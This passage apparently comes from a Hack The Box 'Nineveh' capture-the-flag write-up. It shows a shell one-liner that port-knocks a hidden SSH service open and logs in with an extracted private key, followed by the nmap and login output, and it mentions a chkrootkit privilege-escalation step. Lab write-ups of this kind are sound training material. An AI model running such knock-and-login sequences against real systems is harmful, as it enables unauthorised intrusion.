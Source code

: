 This confirms that SSH is hidden on the box until we use port knocking to open it up:

```text
root@kali:~/htb/nineveh/_nineveh.png.extracted/secret# for x in 571 290 911; do nmap -Pn --host-timeout 201 --max-retries 0 -p $x 10.10.10.43; done && ssh -i nineveh.priv amrois@10.10.10.43

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:47 BST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.
PORT    STATE    SERVICE
571/tcp filtered umeter
Nmap done: 1 IP address (1 host up) scanned in 1.12 seconds

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:48 BST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.
PORT    STATE    SERVICE
290/tcp filtered unknown
Nmap done: 1 IP address (1 host up) scanned in 1.16 seconds

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:48 BST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.
PORT    STATE    SERVICE
911/tcp filtered xact-backup
Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds

Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
133 packages can be updated.
66 updates are security updates.
You have mail.
Last login: Tue Jun 23 15:39:05 2020 from 10.10.14.26
```

We're in as user amrois, and can now proceed as before using the chkrootkit exploit to escalate privileges to root.

All done. See you next time.
